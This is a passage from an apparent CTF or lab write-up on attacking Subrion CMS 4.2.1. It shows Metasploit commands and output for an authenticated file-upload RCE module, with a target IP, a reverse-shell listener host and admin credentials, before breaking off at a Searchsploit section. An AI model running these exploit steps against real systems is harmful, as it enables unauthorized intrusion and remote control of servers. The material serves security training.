 ## Metasploit

Now let's research about Subrion CMS v 4.2.1 on [Metasploit](../../3%20-%20Tags/Hacking%20Tools/Metasploit.md) :

```
msf6 > search Subrion CMS

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/multi/http/subrion_cms_file_upload_rce  2018-11-04       excellent  Yes    Intelliants Subrion CMS 4.2.1 - Authenticated File Upload Bypass to RCE
```

Let's use it :

```
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set Password Scam2021
Password => Scam2021
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set rhosts 10.10.1.80
rhosts => 10.10.1.80
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set lhost 10.8.162.183
lhost => 10.8.162.183
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set TARGETURI /subrion/panel
TARGETURI => /subrion/panel
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > exploit
[*] Started reverse TCP handler on 10.8.162.183:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://10.10.1.80/subrion/panel/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: 7w2BoAqe01nfK6ggtrTakYwpjfd6uCzXTx0yXdpj
[*] Logging in to Subrion Admin Panel at: http://10.10.1.80/subrion/panel/panel/ using credentials admin:Scam2021

```

I can't have a meterpreter shell idk why don't work.

## Searchsploit

We will use [Searchsploit](../../3%20-%20Tags/Hacking%20Tools/Searchsploit.md) to search for the [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) and use it :
